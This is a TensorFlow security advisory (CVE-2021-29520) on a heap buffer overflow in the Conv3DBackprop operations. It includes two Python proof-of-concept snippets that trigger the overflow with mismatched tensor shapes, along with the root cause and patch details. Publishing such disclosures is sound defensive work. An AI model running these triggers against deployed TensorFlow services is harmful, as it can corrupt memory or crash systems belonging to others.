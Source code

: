 ## TFSA-2021-010: Heap buffer overflow in `Conv3DBackprop*`

### CVE Number
CVE-2021-29520

### Impact
Missing validation between arguments to `tf.raw_ops.Conv3DBackprop*` operations
can result in heap buffer overflows:

```python
import tensorflow as tf

input_sizes = tf.constant([1, 1, 1, 1, 2], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([734.6274508233133, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0,
                            -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[4, 1, 6, 1, 1], dtype=tf.float32)
out_backprop = tf.constant([-10.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 89, 29, 89, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_values = [-10.0] * (7 * 7 * 7 * 7 * 7)
input_values[0] = 429.6491056791816
input_sizes = tf.constant(input_values, shape=[7, 7, 7, 7, 7], dtype=tf.float32)
filter_tensor = tf.constant([7, 7, 7, 1, 1], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([-10.0, -10.0, -10.0, -10.0, -10.0, -10.0, -10.0], shape=[7, 1, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 37, 65, 93, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/4814fafb0ca6b5ab58a09411523b2193fed23fed/tensorflow/core/kernels/conv_grad_shape_utils.cc#L94-L153)
assumes that the `input`, `filter_sizes` and `out_backprop` tensors have the
same shape, as they are accessed in parallel.

### Patches
We have patched the issue in GitHub commit
[8f37b52e1320d8d72a9529b2468277791a261197](https://github.com/tensorflow/tensorflow/commit/8f37b52e1320d8d72a9529b2468277791a261197).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
